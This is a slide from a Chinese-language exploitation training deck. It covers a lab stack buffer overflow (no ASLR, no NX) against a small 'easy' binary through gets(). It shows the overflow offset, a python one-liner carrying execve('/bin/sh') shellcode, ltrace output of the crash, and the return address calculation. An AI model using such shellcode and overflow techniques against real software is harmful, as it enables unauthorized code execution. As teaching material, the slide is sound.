

61￼
練習(no ASLR, no NX)
找出溢出點
使用shellcode
Get shell
Address of shellcode?
0xffffd56f + 13 + 4 = 0xffffd580
將EIP修改為該地址！
root@Ubuntu : tmp ➤ python -c "print 'a'*13+'bbbb'+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"|ltrace -if ./easy
[pid 9793] [0x8048331] __libc_start_main(0x8048427, 1, 0xffffd634, 0x8048450 <unfinished ...>
[pid 9793] [0x804841d] gets(0xffffd56f, 0xf7fc2000, 0xf7fc0244, 0xf7e280ec) = 0xffffd56f
[pid 9793] [0x62626262] --- SIGSEGV (Segmentation fault) ---
[pid 9793] [0xffffffffffffffff] +++ killed by SIGSEGV +++
61￼